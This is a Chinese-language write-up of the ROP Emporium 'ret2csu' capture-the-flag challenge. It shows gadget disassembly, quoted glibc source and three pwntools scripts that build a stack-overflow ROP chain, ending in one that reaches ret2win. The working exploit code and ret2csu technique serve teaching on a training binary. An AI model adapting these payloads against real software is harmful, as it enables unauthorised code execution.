ret2csu
via：https://ropemporium.com/challenge/ret2csu.html
We’re back in ret2win territory, but this time without the useful gadgets. How will we populate the rdx register without a pop rdx? Click below to download the binary.
Same same, but different
The challenge is simple: call the ret2win() function, the caveat this time is that the third argument (which you know by now is stored in the rdx register on x86_64 Linux) must be 0xdeadcafebabebeef. Populating this elusive register using ROP can prove more difficult than you might first think, especially in smaller binaries with fewer gadgets. This can become particularly irksome since many useful GLIBC functions require three arguments.
So little room for activities
Start by using ropper to search for sensible gadgets, if there’s no pop rdx perhaps there’s a mov rdx, rbp that you could chain with a pop rbp. You might consider avoiding the issue entirely by returning to the fgets() code within the pwnme() function but this may prove to be difficult since the .got.plt entries of fgets() and some other functions have been tampered. If you’re all out of ideas go ahead and read the last section.
Universal
Fortunately some very smart people have come up with a solution to your problem and as is customary in infosec given it a collection of pretentious names, including “Universal ROP”, “μROP”, “return-to-csu” or just “ret2csu”. You can learn all you need to on the subject from these BlackHat Asia slides. Note that more recent versions of gcc may use different registers from the example in __libc_csu_init(), including the version that compiled this challenge.
所谓的 ret2csu 就是跳到 __libc_csu_init() 执行，其实就是一个在编译的时候加进来的函数

LAB_00400880 XREF[1]: 00400894(j)
00400880 4c 89 fa MOV RDX,R15
00400883 4c 89 f6 MOV RSI,R14
00400886 44 89 ef MOV EDI,R13D
00400889 41 ff CALL qword ptr [R12 + RBX*0x8]=>->fra undefined frame_dummy()
14 dc = 4006D0h
= 4006A0h
undefined __do_global_
0040088d 48 83 ADD RBX,0x1
c3 01
00400891 48 39 dd CMP RBP,RBX
00400894 75 ea JNZ LAB_00400880
LAB_00400896 XREF[1]: 00400874(j)
00400896 48 83 ADD RSP,0x8
c4 08
0040089a 5b POP RBX
0040089b 5d POP RBP
0040089c 41 5c POP R12
0040089e 41 5d POP R13
004008a0 41 5e POP R14
004008a2 41 5f POP R15
004008a4 c3 RET
可控 rbx，rbp，r12，r13，r14，r15
然后 r15 可以设置 rdx，r14 可以设置 rsi，r13 可以设置 edi
看官方的描述其实就是想让我们把 rdx 设置成 0xdeadcafebabebeef 然后调用 ret2win
现在 gadget 有了试一下写 payload：
from pwn import *
ret2csu = ELF("./ret2csu")
p = process("./ret2csu")
ret2win = ret2csu.symbols["ret2win"]
pop_rbx_rbp_r12_r13_r14_r15_ret = 0x0040089a
mov_rdx_r15_mov_rsi_r14_mov_edi_r13D_call_r12_rbx = 0x00400880
exp = "A" * 0x28
exp += p64(pop_rbx_rbp_r12_r13_r14_r15_ret)
exp += p64(0) #rbx
exp += p64(0) #rbp
exp += p64(ret2win) #r12
exp += p64(1) #r13
exp += p64(1) #r14
exp += p64(0xdeadcafebabebeef) #r15
exp += p64(mov_rdx_r15_mov_rsi_r14_mov_edi_r13D_call_r12_rbx)
gdb.attach(pidof(p)[0])
p.sendline(exp)
p.interactive()
失败
仔细理了理，发现还有一个地方错了
00400889 41 ff CALL qword ptr [R12 + RBX*0x8]=>->fra undefined frame_dummy()
当时没仔细看，我以为 r12 放 ret2win 的地址，rbx 置 0 就能 call ret2win
其实这个是要解引用的，把真正的函数地址放进去肯定是不能解引用出函数地址的，然后就是，想着什么地方的地址解引用后能得到一个函数的地址，一开始想到的是 got 表，随便找一个 libc 库函数，绕过 CALL qword ptr [R12 + RBX*0x8] 和 ADD RBX,0x1 CMP RBP,RBX 一直到 ret 才把 ret2win 的地址放到栈上去，这个过程一定要保证，rbx 的值不会被修改，不然不能成功调用 ret2win
绕过 CALL qword ptr [R12 + RBX*0x8] 我把 r12 放 puts 的 got 然后 rbx 放 0
这样就能绕过了，然后 把 rbp 置 1 就能绕过 ADD RBX,0x1 CMP RBP,RBX
payload：
from pwn import *
ret2csu = ELF("./ret2csu")
p = process("./ret2csu")
ret2win = ret2csu.symbols["ret2win"]
fgets_got = ret2csu.got["fgets"]
add_rsp_8_pop_rbx_rbp_r12_r13_r14_r15_ret = 0x00400896
mov_rdx_r15_mov_rsi_r14_mov_edi_r13D_call_r12_rbx = 0x00400880
exp = "A" * 0x28
exp += p64(add_rsp_8_pop_rbx_rbp_r12_r13_r14_r15_ret)
exp += p64(0) # padding (add rsp,8)
exp += p64(0) # rbx
exp += p64(1) # rbp
exp += p64(fgets_got) # r12
exp += p64(1) # r13
exp += p64(1) # r14
exp += p64(0xdeadcafebabebeef) # r15
exp += p64(mov_rdx_r15_mov_rsi_r14_mov_edi_r13D_call_r12_rbx)
exp += p64(0)
exp += p64(0) #rbx
exp += p64(0) #rbp
exp += p64(0) #r12
exp += p64(0) #r13
exp += p64(0) #r14
exp += p64(0) #r15
exp += p64(ret2win)
gdb.attach(pidof(p)[0])
p.sendline(exp)
p.interactive()
不应该啊，参数对了，地址对了，为什么最后却是跳到 0 去了

想到官方的话：
You might consider avoiding the issue entirely by returning to the fgets() code within the pwnme() function but this may prove to be difficult since the .got.plt entries of fgets() and some other functions have been tampered. If you’re all out of ideas go ahead and read the last section.
一看



我***
把 got 表上 puts , printf， memset， fgets 表项全置 0
？？？？？？？？？？？？？？？？？？？？？？
剩下一个 setvbuf
试一试
能调用

但是这个函数会改变 edx 的值，在调用 ret2win 的时候会失败
如果很了解 elf 的格式的话，直接就知道

.init_array 段在 glibc 里面是怎么处理的
via：https://code.woboq.org/userspace/glibc/csu/elf-init.c.html
/* Startup support for ELF initializers/finalizers in the main executable.
Copyright (C) 2002-2019 Free Software Foundation, Inc.
This file is part of the GNU C Library.
The GNU C Library is free software; you can redistribute it and/or
modify it under the terms of the GNU Lesser General Public
License as published by the Free Software Foundation; either
version 2.1 of the License, or (at your option) any later version.
In addition to the permissions in the GNU Lesser General Public
License, the Free Software Foundation gives you unlimited
permission to link the compiled version of this file with other
programs, and to distribute those programs without any restriction
coming from the use of this file. (The GNU Lesser General Public
License restrictions do apply in other respects; for example, they
cover modification of the file, and distribution when not linked
into another program.)
Note that people who make modified versions of this file are not
obligated to grant this special exception for their modified
versions; it is their choice whether to do so. The GNU Lesser
General Public License gives permission to release a modified
version without this exception; this exception also makes it
possible to release a modified version which carries forward this
exception.
The GNU C Library is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the GNU
Lesser General Public License for more details.
You should have received a copy of the GNU Lesser General Public
License along with the GNU C Library; if not, see
<http://www.gnu.org/licenses/>. */
#include <stddef.h>
/* These magic symbols are provided by the linker. */
extern void (*__preinit_array_start []) (int, char **, char **)
attribute_hidden;
extern void (*__preinit_array_end []) (int, char **, char **)
attribute_hidden;
extern void (*__init_array_start []) (int, char **, char **)
attribute_hidden;
extern void (*__init_array_end []) (int, char **, char **)
attribute_hidden;
extern void (*__fini_array_start []) (void) attribute_hidden;
extern void (*__fini_array_end []) (void) attribute_hidden;
#ifndef NO_INITFINI
/* These function symbols are provided for the .init/.fini section entry
points automagically by the linker. */
extern void _init (void);
extern void _fini (void);
#endif
/* These functions are passed to __libc_start_main by the startup code.
These get statically linked into each program. For dynamically linked
programs, this module will come from libc_nonshared.a and differs from
the libc.a module in that it doesn't call the preinit array. */
void
__libc_csu_init (int argc, char **argv, char **envp)
{
/* For dynamically linked executables the preinit array is executed by
the dynamic linker (before initializing any shared object). */
#ifndef LIBC_NONSHARED
/* For static executables, preinit happens right before init. */
{
const size_t size = __preinit_array_end - __preinit_array_start;
size_t i;
for (i = 0; i < size; i++)
(*__preinit_array_start [i]) (argc, argv, envp);
}
#endif
#ifndef NO_INITFINI
_init ();
#endif
const size_t size = __init_array_end - __init_array_start;
for (size_t i = 0; i < size; i++)
(*__init_array_start [i]) (argc, argv, envp);
}
/* This function should not be used anymore. We run the executable's
destructor now just like any other. We cannot remove the function,
though. */
void
__libc_csu_fini (void)
{
#ifndef LIBC_NONSHARED
size_t i = __fini_array_end - __fini_array_start;
while (i-- > 0)
(*__fini_array_start [i]) ();
# ifndef NO_INITFINI
_fini ();
# endif
#endif
}
看到了吗，__libc_csu_fini , __libc_csu_init 的源码
不深究，自己看源码吧

发现有一个 函数指针
地址：0x00600e10
解引用后： 0x4006d0
调用 frame_dummy 函数，试试看
from pwn import *
ret2csu = ELF("./ret2csu")
p = process("./ret2csu")
ret2win = ret2csu.symbols["ret2win"]
frame_dummy_ptr = 0x00600e10
add_rsp_8_pop_rbx_rbp_r12_r13_r14_r15_ret = 0x00400896
mov_rdx_r15_mov_rsi_r14_mov_edi_r13D_call_r12_rbx = 0x00400880
exp = "A" * 0x28
exp += p64(add_rsp_8_pop_rbx_rbp_r12_r13_r14_r15_ret)
exp += p64(0)
exp += p64(0) #rbx
exp += p64(1) #rbp
exp += p64(frame_dummy_ptr) #r12
exp += p64(1) #r13
exp += p64(1) #r14
exp += p64(0xdeadcafebabebeef) #r15
exp += p64(mov_rdx_r15_mov_rsi_r14_mov_edi_r13D_call_r12_rbx)
exp += p64(0)
exp += p64(0) #rbx
exp += p64(0) #rbp
exp += p64(0) #r12
exp += p64(0) #r13
exp += p64(0) #r14
exp += p64(0) #r15
exp += p64(ret2win)
# gdb.attach(pidof(p)[0])
p.sendline(exp)
p.interactive()
pwn!

gdb 调试：


看，frame_dummy 调用过程中没有改变过 rdx 的值
call 完后，rdx 还是 0xdeadcafebabebeef

走完就能调用 ret2win 了
ropemporium pwned!
that’s over!